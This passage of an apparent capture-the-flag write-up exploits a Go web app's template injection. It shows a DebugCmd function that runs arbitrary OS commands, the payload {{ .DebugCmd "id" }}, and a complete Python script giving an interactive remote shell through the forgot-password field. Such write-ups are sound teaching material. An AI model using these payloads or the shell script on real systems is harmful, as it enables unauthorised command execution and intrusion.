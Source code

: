 
We can see an interseting function `DebugCmd` -

```bash
func (u User) DebugCmd (test string) string {
  ipp := strings.Split(test, " ")
  bin := strings.Join(ipp[:1], " ")
  args := strings.Join(ipp[1:], " ")
  if len(args) > 0{
    out, _ := exec.Command(bin, args).CombinedOutput()
    return string(out)
  } else {
    out, _ := exec.Command(bin).CombinedOutput()
    return string(out)
  }
}
```

# # `Exploitation` -

In the SSTI above, I used `{{ . }}` to print the current objects passed into the template. I can also reference functions from the code within `{{ }}`. [This post](https://www.calhoun.io/intro-to-templates-p3-functions/) talks about how to reference objects (including functions) from the templating engine using a `.function_name`. Submitting `{{ .DebugCmd "id" }}` returns proof of execution:

![[Pasted image 20210904120109.png]]


# # `Psuedo Terminal` -

```bash
#!/usr/bin/env python3    

import re    
import requests    
from cmd import Cmd    
from html import unescape    


class Term(Cmd):    
    prompt = "gobox> "    
    capture_re = re.compile(r"Email Sent To: (.*?)\s+<button class", re.DOTALL)    

    def default(self, args):    
        """Run given input as command on gobox"""    
        cmd = args.replace('"', '\\"')    
        resp = requests.post('http://10.10.11.113:8080/forgot/',    
                data = {"email": f'{{{{ .DebugCmd "{cmd}" }}}}'},    
                proxies = {"http": "http://127.0.0.1:8080"})    
        try:    
            result = self.capture_re.search(resp.text).group(1)    
            result = unescape(unescape(result))
            print(result)
        except:
            import pdb; pdb.set_trace()


    def do_exit(self, args):
        """Exit"""
        return True


term = Term()
term.cmdloop()
```